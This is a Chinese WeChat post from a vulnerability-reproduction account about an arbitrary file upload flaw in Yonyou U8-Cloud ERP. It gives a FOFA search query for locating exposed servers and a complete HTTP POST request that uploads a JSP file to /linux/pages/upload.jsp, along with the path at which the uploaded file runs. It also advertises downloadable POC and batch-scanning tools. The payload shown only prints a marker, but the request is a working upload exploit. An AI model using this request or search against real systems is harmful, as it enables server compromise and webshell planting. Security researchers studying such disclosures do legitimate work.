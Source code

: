 #  用友U8-Cloud 存在任意文件上传漏洞 附POC

原创 南风徐来 [ 南风漏洞复现文库 ](javascript:void\(0\);)

**南风漏洞复现文库** ![]()

微信号 gh_a9e9b8a80c70

功能介绍 分享各种CVE CNVD CNVD及最新漏洞信息、漏洞复现、漏洞利用工具、漏洞整改等内容，适合安全运维人员，网络安全方面的人交流学习。

____

___发表于_

收录于合集 #漏洞文库 79个

@[toc]

免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。

## 1\. 用友U8-Cloud 简介

微信公众号搜索：南风漏洞复现文库 该文章 南风漏洞复现文库 公众号首发

用友U8 Cloud 提供企业级云ERP整体解决方案，全面支持多组织业务协同，实现企业互联网资源连接。 U8 Cloud
亦是亚太地区成长型企业最广泛采用的云解决方案。

## 2.漏洞描述

U8 cloud 聚焦成长型、创新型企业的云 ERP，基于全新的企业互联网应用设计理念，为企业提供集人财物客、产供销于一体的云 ERP
整体解决方案，全面支持多组织业务协同、智能财务，人力服务、构建产业链智造平台，融合用友云服务实现企业互联网资源连接、共享、协同。该系统存在任何文件上传漏洞。

CVE编号:

CNNVD编号:

CNVD编号:

## 3.影响版本

用友U8-Cloud

![]()用友U8-Cloud 存在任意文件上传漏洞

## 4.fofa查询语句

app="用友-U8-Cloud"

## 5.漏洞复现

漏洞链接：http://127.0.0.1/linux/pages/upload.jsp

漏洞数据包：

    
    
    POST /linux/pages/upload.jsp HTTP/1.1  
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0  
    Accept-Encoding: gzip, deflate  
    Accept: */*  
    Connection: close  
    Host: 127.0.0.1  
    Content-Type: application/x-www-form-urlencoded  
    filename: 55056.jsp  
    Content-Length: 30  
      
    <% out.println("025986327");%>

![]()

拼接上传的文件地址：http://127.0.0.1/linux/55056.jsp

![]()

## 6.POC&EXP

关注公众号 南风漏洞复现文库 并回复 漏洞复现62 即可获得该POC工具下载地址：

![]()

本期漏洞及往期漏洞的批量扫描POC及POC工具箱已经上传知识星球：南风网络安全

![]()![]()![]()

## 7.整改意见

升级版本

## 8.往期回顾

[泛微e-office系统存在SQL注入漏洞
附POC](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247484337&idx=1&sn=f9a6ee801435247eebfbcc5e383e5909&chksm=974b8eb6a03c07a08787ab6ed93c7117715dfba07557476e38a4a0d632f3f55e59db12991e42&scene=21#wechat_redirect)  

[紫光档案管理系统存在任意文件上传 附
POC](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247484324&idx=1&sn=a7021077d8d66ba14360417c36c46e6f&chksm=974b8ea3a03c07b5b0683c4c8b2470580b97dad64f862fe12cf6732e723b55cc8ef717319ca0&scene=21#wechat_redirect)  

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

